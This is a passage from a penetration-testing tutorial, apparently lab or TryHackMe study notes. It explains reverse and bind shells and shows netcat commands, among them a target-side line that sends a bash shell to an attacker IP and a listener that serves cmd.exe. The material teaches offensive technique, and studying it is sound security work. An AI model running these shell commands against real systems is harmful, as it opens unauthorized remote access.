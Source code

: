 However, shells are often a starting point. They’re typically unstable and non-interactive, so you’ll aim to escalate to a **native access method** like SSH (Linux) or RDP (Windows) for a fully-featured experience.

---

## 2. Types of Shells

There are two primary types of shells in pentesting: **reverse shells** and **bind shells**. Each serves a specific purpose based on the target’s network configuration and your attack setup.

### 2.1 Reverse Shell
- **Definition**: The target executes code that connects **back to your machine**, where you’re running a listener to receive the shell.
- **How It Works**:
  1. You set up a listener on your attacking machine (e.g., `nc -lvnp 443`).
  2. The target runs shellcode (e.g., via a web exploit, command injection) that initiates a connection to your listener.
  3. You receive a shell, allowing you to run commands on the target.
- **Advantages**:
  - Bypasses **inbound** firewall rules since the target initiates the outbound connection.
  - Easier to execute and debug, especially in CTF challenges or lab environments like TryHackMe.
  - Common in scenarios where you can inject code (e.g., webshells, exploits).
- **Challenges**:
  - Requires your network to accept incoming connections. Outside labs, you may need to configure port forwarding or use a VPS.
  - Non-interactive and unstable by default, requiring stabilization.
  - Outbound firewall rules on the target may block connections to uncommon ports.
- **Example**:
  - **Attacker (listener)**: `sudo nc -lvnp 443`
  - **Target (shellcode)**: `nc 10.10.10.5 443 -e /bin/bash`
  - **Result**: You receive a shell, and running `whoami` shows the target’s user (e.g., `www-data`).

### 2.2 Bind Shell
- **Definition**: The target runs code to open a port and listen for connections. You connect to that port from your machine to gain a shell.
- **How It Works**:
  1. The target runs shellcode that starts a listener (e.g., `nc -lvnp 4444 -e cmd.exe`).
  2. You connect to the target’s open port from your machine (e.g., `nc 10.10.10.100 4444`).
  3. You gain a shell to run commands.
- **Advantages**:
  - No network configuration needed on your side—you’re just making an outbound connection.
  - Useful when the target’s firewall allows inbound connections on specific ports.
- **Challenges**:
  - **Inbound** firewall rules often block open ports, making bind shells less reliable.
  - Non-interactive and unstable by default.
  - Requires the target to have a tool like Netcat installed or uploaded.
- **Example**:
  - **Target (listener)**: `nc -lvnp 4444 -e cmd.exe`
  - **Attacker (connect)**: `nc 10.10.10.100 4444`
  - **Result**: You connect and get a `cmd.exe` shell, allowing commands like `whoami`.
